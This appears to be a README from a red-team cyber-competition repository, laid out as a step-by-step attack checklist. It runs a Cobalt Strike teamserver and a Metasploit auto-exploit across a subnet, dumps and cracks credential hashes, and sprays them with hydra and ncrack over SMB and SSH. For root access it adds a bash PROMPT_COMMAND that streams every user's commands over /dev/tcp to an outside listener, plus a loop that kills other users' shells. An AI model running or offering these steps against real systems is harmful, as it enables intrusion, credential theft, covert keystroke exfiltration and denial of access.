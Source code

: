 # 67-CW-Challenge

# TODO
1. Figure out what services we would like to host and get them configured 
2. Assign tasks 
3. Assign positions
4. ???
5. Profit

# Checklist 
0. cd in the `67-CW-Challenge` folder
1. Setup teamserver on box using `./CobaltStrike/teamserver IP 33NWSIsTheBest ./CobaltStrike/cobalt.profile`
2. Run cobalt strike using `./CobaltStrike/cobaltstrike`  
2.1. Ensure that a reverse HTTP listener exists called "listener"   
3. Run `msfconsole`
4. `setg LHOST 192.168.10.225`
5. `setg RHOSTS 192.168.10.0/24`
6. `resource ./Metasploit/auto-exploit.rc`
7. In cobaltstrike script console window, type `creds`
8. Run `mkdir scans; bash scans.sh`
9. Run `cat creds.txt | cut -d":" -f2 | sed 's/ //g' > hashes.txt`
9. Run `cat creds.txt | cut -d":" -f1 | sed 's/ //g' > users.txt`
10. Upload hashes to hashkiller
11. Copy results to `hashkiller.txt`
11.1. Run `cat hashkiller.txt | grep -v "No Match" | cut -d" " -f3 | sed 's/ //g' > passwords.txt` 
12. Run `python3 user-pass.py`  
13. Run `hydra -C user-pass.txt -M ./scans/445_scan.txt smb | tee smb_results.txt`  
13.1. Run `hydra -C user-pass.txt -M ./scans/22_scan.txt ssh | tee ssh_results.txt`  
14. Run `hydra -L users.txt -P passwords.txt -M ./scans/445_scan.txt smb | tee results.txt`
14.1. Run `hydra -L users.txt -P passwords.txt -M ./scans/22_scan.txt ssh | tee results.txt`
14.2 Run `ncrack -iL scans/445_scan.txt --pairwise -U users.txt -P passwords.txt -p smb`
15. Run `cat *results.txt | grep login: > valid_creds.txt`

# Linux checklists
## When user
## When root
0. See if there is a world baschrc `ls -al /etc/bash.bashrc`  
0.1. If there is, `vim /etc/bash.bashrc` and add `export PROMPT_COMMAND='RETRN_VAL=$?;echo "$(hostname -I)- $(whoami) [$$]: $(history 1 | sed "s/^[ ]*[0-9]\+[ ]*//" ) [$RETRN_VAL]" > /dev/tcp/10.0.8.2/1337'`   
0.2. On your local computer, setup `ncat -lk 1337 | tee log.txt`  
0.3. If there isn't.  
0.4. while true; do test=$$; ps awux | grep bash | grep -v $test | grep -v grep | awk '{print $2 }' | xargs kill -9 ; sleep 10 ; done
